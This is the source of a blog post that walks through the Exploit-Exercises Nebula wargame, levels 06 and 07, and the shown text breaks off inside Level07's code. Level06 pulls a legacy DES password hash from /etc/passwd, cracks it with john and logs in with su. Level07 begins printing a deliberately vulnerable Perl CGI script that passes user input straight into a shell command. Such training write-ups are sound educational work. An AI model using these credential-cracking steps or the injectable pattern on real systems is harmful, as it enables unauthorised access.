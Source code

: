 ```yaml
---
layout: post
title: "Exploit-Exercises: Nebula (06-10)"
date: 2015-06-17 00:05:09 +0200
comments: true
categories: [exploit-exercises, vulnhub]
---
```

Image: [Exploit-Exercises: Nebula (v5)](https://www.vulnhub.com/entry/exploit-exercises-nebula-v5,31/)

## Level06
From the assignment "The flag06 account credentials came from a legacy unix
system" we conclude that the password is stored in /etc/passwd.

{% codeblock %}
level06@nebula:/home/flag06$ grep flag06 /etc/passwd
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
{% endcodeblock %}

We store credentials to /tmp/hash.txt and use john:
{% codeblock %}
level06@nebula:/home/flag06$ john /tmp/hash.txt 
Created directory: /home/level06/.john
Loaded 1 password hash (Traditional DES [128/128 BS SSE2])
hello            (flag06)
guesses: 1  time: 0:00:00:00 100% (2)  c/s: 75300  trying: 12345 - biteme
Use the "--show" option to display all of the cracked passwords reliably
{% endcodeblock %}

Now we can log using 'hello' password:
{% codeblock %}
level06@nebula:/home/flag06$ su - flag06
Password: 
flag06@nebula:~$ getflag 
You have successfully executed getflag on a target account
{% endcodeblock %}

## Level07
{% codeblock lang:perl index.cgi %}
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }
